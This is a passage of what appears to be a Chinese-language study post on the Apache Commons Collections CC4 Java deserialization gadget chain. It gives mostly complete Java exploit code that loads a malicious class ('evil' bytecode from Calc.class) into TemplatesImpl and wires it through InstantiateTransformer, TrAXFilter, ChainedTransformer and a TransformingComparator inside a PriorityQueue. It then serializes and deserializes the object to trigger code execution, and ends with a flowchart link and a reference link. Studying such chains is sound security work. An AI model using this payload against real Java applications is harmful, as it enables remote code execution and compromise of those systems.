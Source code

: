 ```java
        nameField.setAccessible(true);
        nameField.set(templates,"Drunkbaby");

        Field bytecodesField = templatesClass.getDeclaredField("_bytecodes");
        bytecodesField.setAccessible(true);
        byte[] evil = Files.readAllBytes(Paths.get("D:\\IDEAProject\\CC1\\cc1\\target\\classes\\org\\cc1\\Calc.class"));
        byte[][] codes = {evil};
        bytecodesField.set(templates,codes);

//        Field tfactoryField = templatesClass.getDeclaredField("_tfactory");
//        tfactoryField.setAccessible(true);
//        tfactoryField.set(templates, new TransformerFactoryImpl());
//        templates.newTransformer();
        InstantiateTransformer instantiateTransformer = new InstantiateTransformer(new Class[]{Templates.class},
                new Object[]{templates});
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(TrAXFilter.class), // 构造 setValue 的可控参数
                instantiateTransformer
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        //  instantiateTransformer.transform(TrAXFilter.class);

        TransformingComparator transformingComparator = new TransformingComparator<>(new ConstantTransformer<>(1));
        PriorityQueue priorityQueue = new PriorityQueue<>(transformingComparator);
        priorityQueue.add(1);
        priorityQueue.add(2);

        Class c = transformingComparator.getClass();
        Field transformingField = c.getDeclaredField("transformer");
        transformingField.setAccessible(true);
        transformingField.set(transformingComparator, chainedTransformer);

        serialize(priorityQueue);
        unserialize("ser.bin");
}
public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
        }
public static Object unserialize(String Filename) throws IOException, ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
        }
        }
```
## 流程图
![](https://i.imgur.com/8ibRNC8.png)


## 参考链接
[芜风师傅](https://drun1baby.github.io/2022/06/28/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Commons-Collections%E7%AF%8706-CC4%E9%93%BE/)